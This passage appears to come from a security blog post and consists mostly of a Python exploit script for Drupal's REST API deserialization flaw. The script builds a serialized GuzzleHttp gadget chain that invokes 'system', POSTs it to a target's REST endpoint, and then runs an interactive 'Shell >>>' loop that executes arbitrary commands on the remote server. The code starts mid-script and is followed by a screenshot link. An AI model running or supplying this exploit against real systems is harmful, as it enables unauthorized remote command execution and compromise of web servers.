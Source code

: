 ```bash
        '{\r\n  "link": [\r\n    {\r\n      "value": "link",\r\n      "options": "O:24:\\"GuzzleHttp\\\\Psr7\\\\FnStream\\":2:{s:33:\\"\\u0000GuzzleHttp\\\\Psr7\\\\FnStream\\u0000methods\\";a:1:{s:5:\\"close\\";a:2:{i:0;O:23:\\"GuzzleHttp\\\\HandlerStack\\":3:{s:32:\\"\\u0000GuzzleHttp\\\\HandlerStack\\u0000handler\\";s:%s:\\"%s\\";s:30:\\"\\u0000GuzzleHttp\\\\HandlerStack\\u0000stack\\";a:1:{i:0;a:1:{i:0;s:6:\\"system\\";}}s:31:\\"\\u0000GuzzleHttp\\\\HandlerStack\\u0000cached\\";b:0;}i:1;s:7:\\"resolve\\";}}s:9:\\"_fn_close\\";a:2:{i:0;r:4;i:1;s:7:\\"resolve\\";}}"\r\n    }\r\n  ],\r\n  "_links": {\r\n    "type": {\r\n      "href": "%s/rest/type/shortcut/default"\r\n    }\r\n  }\r\n}'
        % (cmd_len, cmd, url)
    )

    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0",
        "Connection": "close",
        "Content-Type": "application/hal+json",
        "Accept": "*/*",
        "Cache-Control": "no-cache",
    }
    global response
    response = requests.request("POST", url_dir, data=payload, headers=headers)
    r = response.text
    s = r.split("}")[1]
    print(s)


while 1:
    cmd = input("Shell >>> ")
    cmd_len = len(cmd)
    if cmd == "exit":
        exit(0)
    do_post(cmd)
```

[![](assets/1707953684-d4a5d76dbc2da03f91dabc4060e4fc43.png)](https://cdn.nlark.com/yuque/0/2024/png/21402865/1707292521303-288c0212-12bb-43de-b788-30a3007dac2a.png#averageHue=%23435b5b&clientId=u968b053f-1c23-4&from=paste&height=157&id=u8a755b68&originHeight=314&originWidth=1138&originalType=binary&ratio=2&rotation=0&showTitle=false&size=58618&status=done&style=none&taskId=u2e569569-8133-4ab6-a18f-1df37076869&title=&width=569)
